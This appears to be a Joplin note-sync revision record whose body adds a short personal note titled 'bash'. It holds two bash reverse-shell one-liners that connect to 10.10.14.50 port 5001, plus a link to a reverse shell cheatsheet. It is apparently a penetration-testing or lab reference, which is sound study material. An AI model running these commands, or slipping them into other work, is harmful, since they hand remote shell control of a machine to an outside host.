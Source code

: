 id: 85b1602b7a2940b2a424d9435e838739
parent_id: 
item_type: 1
item_id: 5c960ae0679f45c084d870a7e8bd7850
item_updated_time: 1652807911164
title_diff: "[{\"diffs\":[[1,\"bash\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":4}]"
body_diff: "[{\"diffs\":[[1,\"> ```\\\n> bash -i >& /dev/tcp/10.10.14.50/5001 0>&1\\\n> bash -c \\\"bash -i >& /dev/tcp/10.10.14.50/5001 0>&1\\\"\\\n> \\\n> ```\\\n\\\nhttps://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":248}]"
metadata_diff: {"new":{"id":"5c960ae0679f45c084d870a7e8bd7850","parent_id":"b8fe3751a1b24ee7ad3f067e0a5bfdcd","latitude":"1.28795004","longitude":"103.85178375","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-17T17:25:10.385Z
created_time: 2022-05-17T17:25:10.385Z
type_: 13